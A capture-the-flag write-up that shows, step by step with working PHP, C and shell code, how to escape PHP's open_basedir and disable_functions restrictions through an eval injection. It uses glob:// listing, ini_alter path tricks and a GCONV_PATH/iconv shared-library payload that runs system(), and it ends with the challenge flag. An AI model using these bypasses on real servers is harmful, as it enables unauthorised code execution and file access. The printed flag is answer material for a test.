

# One Line php challenge

## Description

Just some not so regular disable_functions / open_basedir PHPfu.
http://docker.hackthebox.eu:31103/

## Writeup



There is nothing much to tell about the source, it simply takes your input and
print it using eval, and there is no filter at all.

The challenge seems pretty easy, We probably have to find where the flag file is stored and read it.
Of course, the first thing we tried is `'';system('ls');`


Sure, it wasn't going to be that easy, right ?

Let's run `phpinfo()` and check all disabled functions:


We can see all the needed functions to get an RCE are disabled.

Open_basedir is also enabled, and we can check that by trying to read `/etc/passwd` for example.

```
http://docker.hackthebox.eu:31103/?%F0%9F%8D%BC='';file_get_contents('/etc/passwd');
```


We have only access to `/www` and `/tmp`.

This challenge won't be so easy after all.
Let's break it down into two parts, first we bypass `open_basedir` then `disable_functions`

### Part 1: Bypassing Open_basedir

First thing we did was trying to find built-in functions that doesn't check for open_basedir paths.

With the experience we had in CTFs, we remembered that we can list files and directories using the `DirectoryIterator` class, and using the `glob://` schema we can actually bypass `open_basedir` easily

```php
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) { echo "{$f}<br/>"; }
```


And here is the file we need `readflag`
But there is no end to this trick, we can only list files, but we can't actually read them.

Also, we don't know if `readflag` is a simple text file or a binary. It's probably a binary that needs to be executed to read the flag (hence the need to bypass `disable_functions`)

So in the end, we need to properly bypass open_basedir.

There is a well known trick to do it, by playing with subdirectories and changing some config values with `ini_set` we can easily bypass it.

The classical way to do it is with this code:

```php
chdir('/tmp');
mkdir('sub');
chdir('sub');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
print_r(scandir('/'));
```

It's easy to understand, first we `cd` to folder that we have access to, in this case `/tmp` or even `/www` is fine.

We create a sub folder named `sub` and we `cd` into it.
we change the `open_basedir` value to `..`, now what happens is that php checks if the new value is allowed based on the old value, in this case it is allowed because we are inside `sub` and it's parrent directory is `/tmp` so obviously it's allowed.

Now we can access everything one directory level above our current directory, so we just traverse the tree upwards to list all files;

and then to be able to list all files no matter where we are in the tree, we `cd` into `/` by going upwards and then change `open_basedir` to `/`.

Now this code won't work for a reason, `ini_set` is disabled. But no worries we can just change it to `ini_alter` and it works perfectly fine.
So the final code is:

```
chdir('/tmp'); mkdir('sub'); chdir('sub'); ini_alter('open_basedir','..');
chdir('..'); chdir('..'); ini_alter('open_basedir','/');
print_r(scandir('/'));
```


We successfully bypassed `open_basedir`. We can confirm that `readflag` is a binary, by trying to read it:

```php
chdir('/tmp'); mkdir('sub'); chdir('sub'); ini_alter('open_basedir','..');
chdir('..'); chdir('..'); ini_alter('open_basedir','/');
readfile('/readflag');
```


we can see it's an ELF.
So now we have to find a way to execute it and get the flag

### Part 2: Bypassing disable_functions

This was the hardest part, we took a really long time to solve it.

First we tried so many stuff, nothing worked, we read write-ups and googled about all possible ways to bypass `disable_functions`, they all talk about bypassing it using `php imagick` and `php-fpm` and some exploits for specific versions of PHP. But imagick and fpm weren't installed and for this version (7.4.8) we found nothing.

Then we decided to start over, let's have another look at the list of disabled functions:


As we can see, the last 3 functions are `ini_set, mail, error_log`, i wondered why in this exact order ?

And then i thought:

`We bypassed open_basedir by changing ini_set to ini_alter. And all known ways to bypass disable_functions uses mail() and error_log() functions. So logically we need to use the same way with a slight modification, maybe using another function instead of those`

We stick to the basic, the exploit of mail() uses LD_PRELOAD to load a custom .so module that will hook one of the functions that mail() call internally, and inside it we can execute any command we want with system().

So all we needed to do is find all php functions that used LD_PRELOAD.
We found the following functions:
`mb_send_mail`
`imap_mail`
`imap_open`
`libvirt_connect`
`gnupg_init`

But unfortunately all of them were undefined :(
We almost lost hope, until i noticed something weird.
In `phpinfo()` i noticed that php was compiled with this additional parameter: ` --with-iconv`


This is weird because i already read about about an exploit that uses `iconv`. Googling it i found this [gist](https://gist.github.com/LoadLow/90b60bd5535d6c3927bb24d5f9955b80)

In a nutshell, `iconv()` is a php function that let you convert string from a specifc charset to another charset. it looks innocent but actually it uses a `GCONV_PATH` which is an environment variable for changing the configuration of the translation mechanism. And this variable can act almost the same way as `LD_PRELOAD`, so we can actually exploit it.

To do so we will need to upload 2 files:

`gconv-modules` containing:

```
module  PAYLOAD//    INTERNAL    ../../../../../../../../tmp/payload    2
module  INTERNAL    PAYLOAD//    ../../../../../../../../tmp/payload    2
```

and `payload.so` which is the compiled library, we will compile this code:

```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  system("cat /readflag > /tmp/flag.txt");
  exit(0);
}
```

Compile it with:

```bash
gcc payload.c -o payload.so -shared -fPIC
```

Because of the length limit in URIs, we wrote a python script to split files to small chunks and upload them.

After uploading both files to `/tmp` we trigger the exploit by executing this php code:

```php
'';putenv("GCONV_PATH=/tmp"); iconv("payload", "UTF-8", "whatever");
```

But unfortunately it didn't work either :(

After many trials and errors, my teammate decided to deploy the challenge on a vps (since they gave us the source), and check the logs, and he found the issue:


Apparently, we did get an RCE, `/tmp/flag.txt` was created, but somehow when gconv exits, the whole server stops, it kills php process.

So the solution was just to remove `exit(0)` from the code.

We rerun the code and we get a `flag.txt` file in `/www`:


Let's read the flag:


Screenshot from our automatic solver script:


#### Flag:

```
HTB{iconv_r34lly_b3_d01ng_us_lik3_th4t}
```